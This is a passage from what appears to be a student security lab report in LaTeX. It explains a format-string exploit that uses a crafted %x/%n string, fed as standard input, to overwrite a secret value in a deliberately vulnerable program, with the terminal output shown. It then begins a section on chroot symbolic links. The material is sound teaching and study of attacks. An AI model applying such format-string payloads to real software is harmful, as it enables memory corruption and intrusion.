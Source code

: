 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
In the listing~\ref{printf:writefile1} we can see that we run program \texttt{write\_string} which creates and writes into a file called 'mystring'. The program asks the user for input what makes it possible to provide the rest of format specifier as in previous the part of this task. Then we use the file as standard input to the vulnerable program. First four bytes of \texttt{user\_input} now will contain the address of \texttt{secret[1]} which we hardcoded at the beginning of the file and the rest will be the format specifier for \texttt{printf}. NB now we have to pop more values off the stack, because \texttt{user} is defined at the beginning of the method so it gets pushed to the stack earlier. As the result, when \texttt{user\_input} is at top of the stack and \texttt{printf} 'executes' \texttt{\%s} we print the location stored at the beginning of this buffer. In the similar way we can overwrite memory at specified location, simply by providing similar format specifier as in previous part, i.e. containing \texttt{\%n}.

\vspace{1em}
\lstset{
	captionpos=b,
	frame=single,
	language=BASH,
	caption=Example of overwriting memory with a specified value using a file as standard input,
	label=printf:writefile2,
	breaklines=true,
}
\begin{lstlisting}
seed@seed-desktop:~/cwk2$ ./write_string
%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.ABCD%n    
The string length is 40
seed@seed-desktop:~/cwk2$ ./vul < mystring
The variable secret’s address is 0xbffff4e8 (on stack)
The variable secret’s value is 0x 804b018 (on heap)
secret[0]’s address is 0x 804b018 (on heap)
secret[1]’s address is 0x 804b01c (on heap)
Please enter a string
bffff4ec.bffff560.bffff554.bffff5f4.0.0.bffff5a0.b7fff670.80482bf.804b018.ABCD
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x52
\end{lstlisting}



\section{\texttt{chroot} vulnerability}
\subsection{Understanding how \texttt{chroot} works}
\subsubsection{Symbolic link}
It is \emph{not} possible to follow symbolic link pointing outside of \texttt{chroot} jail.\\
Symbolic link uses absolute or relative path to given fail, hence once in jail this relative path is not valid any-more.
\end{document}
